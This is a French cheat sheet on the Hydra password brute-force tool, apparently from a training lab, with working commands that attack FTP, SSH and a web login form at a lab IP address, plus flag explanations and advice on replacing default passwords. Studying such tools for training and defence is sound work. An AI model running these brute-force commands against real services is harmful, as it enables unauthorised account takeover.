 Hydra est un outil de **brute force en ligne** permettant de tester rapidement des listes de mots de passe contre divers services d’authentification (ex. SSH, FTP, HTTP, SMTP, MySQL, RDP, Telnet, VNC, etc.).

- **Fonctionnement :**
    
    - Automatisation de tentatives de connexion (ex. via dictionnaire de mots de passe).
        
    - Permet de trouver des identifiants faibles ou par défaut.
        
- **Risques :**
    
    - Les mots de passe **courants**, **simples** (<8 caractères, sans complexité), ou **par défaut** (ex. `admin:password`) sont facilement cassés.
        
- **Bonne pratique :**  
    → Toujours remplacer les mots de passe par défaut et utiliser des mots de passe robustes pour éviter une compromission rapide.



## 1️⃣ FTP

Commandes :  
hydra -l user -P passlist.txt ftp://10.10.224.225

- `-l user` : username
    
- `-P passlist.txt` : liste de mots de passe
    

---

## 2️⃣ SSH

Commandes :  
hydra -l <username> -P <full path to pass> 10.10.224.225 -t 4 ssh

- `-l <username>` : username
    
- `-P <wordlist>` : fichier de mots de passe
    
- `-t 4` : nombre de threads parallèles (ici 4)
    

Exemple concret :  
hydra -l root -P passwords.txt 10.10.224.225 -t 4 ssh

---

## 3️⃣ Web Form (POST)

Commandes :  
hydra -l <username> -P <wordlist> 10.10.224.225 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

- `http-post-form` : type de formulaire POST
    
- `/` : chemin du formulaire (login page)
    
- `username=^USER^&password=^PASS^` : champs du formulaire
    
- `F=incorrect` : texte affiché en cas d’échec
    
- `-V` : verbose, affiche toutes les tentatives
    

> Pour déterminer si la page utilise GET ou POST, consulter l’onglet **Network** dans les dev tools du navigateur.